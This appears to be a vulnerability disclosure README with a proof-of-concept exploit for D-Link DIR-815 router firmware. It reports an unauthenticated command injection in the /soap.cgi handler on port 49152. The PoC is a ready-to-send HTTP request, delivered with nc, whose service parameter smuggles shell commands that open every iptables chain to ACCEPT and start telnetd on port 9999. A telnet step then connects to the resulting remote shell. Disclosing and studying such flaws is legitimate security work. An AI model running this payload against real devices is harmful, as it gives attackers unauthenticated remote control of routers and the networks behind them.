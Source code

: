 # dir-815
Exploit Author: yangchunyu@whu.edu.cn

Vendor: D-Link

Firmware: dir815_v1.01SSb08.bin

I found unauthenticated remote code execution vulnerability in soapcgi_main function of cgibin binary.

On the /soap.cgi HTTP POST message on 49152 port, with the service GET parameter, the unauthenticated remote attacker can execute the shell command.

The similar vulnerability already exists with CVE-2018-6530&CVE-2018-20114.

![image]()

With | string, the device can be exploited, too.

# poc
nc 192.168.0.1 49152
<br>POST /soap.cgi?service=|iptables -P INPUT ACCEPT|iptables -P FORWARD ACCEPT|iptables -P OUTPUT ACCEPT|iptables -t nat -P PREROUTING ACCEPT|iptables -t nat -P OUTPUT ACCEPT|iptables -t nat -P POSTROUTING ACCEPT|telnetd -p 9999| HTTP/1.1
<br>Host: 192.168.0.1:49152
<br>Accept-Encoding: identity
<br>Content-Length: 16
<br>SOAPAction: "whatever-serviceType#whatever-action"
<br>Content-Type: text/xml

whatever content...

telnet 192.168.0.1 9999
